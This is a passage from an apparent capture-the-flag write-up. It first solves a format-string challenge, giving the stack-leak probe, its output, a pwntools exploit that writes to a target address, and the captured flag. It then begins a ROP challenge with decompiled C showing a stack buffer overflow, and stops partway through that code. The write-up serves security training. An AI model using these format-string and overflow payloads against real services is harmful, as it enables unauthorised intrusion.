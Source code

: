 ```python
payload = b"aaaa %x " * 30

'''
OUTPUT 

Hi, aaaa 5e63d020 aaaa 0 aaaa 217aa37 aaaa 4 aaaa 2296040 aaaa 5e640298 aaaa 10 aaaa 90 aaaa 8 aaaa 6474e553 aaaa 350 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161 aaaa 61616161
'''
```

Sending that payload I figured out that when **%x** was printed out as **61616161** ( ascii for 'a' ) I was writing on the stack.
Gradually decrementing I found out that the last variable on the stack was the 11th.
Before inserting the address anyway I had to print out 42 times a random char, so the address **0x404308** wouldn't be stored in the 12th stack variable but something more.
Empirically I found out that after writing 42 characters the address would be stored in the 18th stack variable so the final payload would be structured like so 

```python
p = pwn.remote(HOST, PORT)
payload = b"a" * 42 + b"%18$nA" + pwn.p64(0x404308) # 'A' is a padding for alignment
p.sendline(payload)
p.interactive()
```

```
BASC{50_LoNg_&_Thanks_for_4ll_tH3_F1sh___3SBqYIJf}
```

# rop-test

```
*Really Optimized Primality-test* is a service that can tell you whether a number
is prime or not.
Well, being extremely optimized, if the service tells you that a number is not
a prime then you can be sure, otherwise well... let's say it depends ;)

Anyway, the flag is in the usual place. Can you read the flag?

**Hint**: the simplest/most-direct solution does *not* leverage a ret-to-libc attack. Pay attention at the challenge name ;)
```

As I did for the other exercises I just ran the program to see the normal behaviour and when prompted I inserted some values not noticing anything particularly interesting.
So I took a look inside using Ghidra and discovered the main function

```c
{
  int iVar1;
  char *pcVar2;
  size_t sVar3;
  char acStack_d9 [125];
  uint local_5c [19];
  size_t local_10;
  
  printf("Enter a number: ");
  pcVar2 = fgets(acStack_d9 + 1,0x200,stdin);
  if (pcVar2 == (char *)0x0) {
    exit(1);
  }
  sVar3 = strlen(acStack_d9 + 1);
  local_10 = sVar3;
  if ((sVar3 != 0) && (acStack_d9[sVar3] == '\n')) {
```
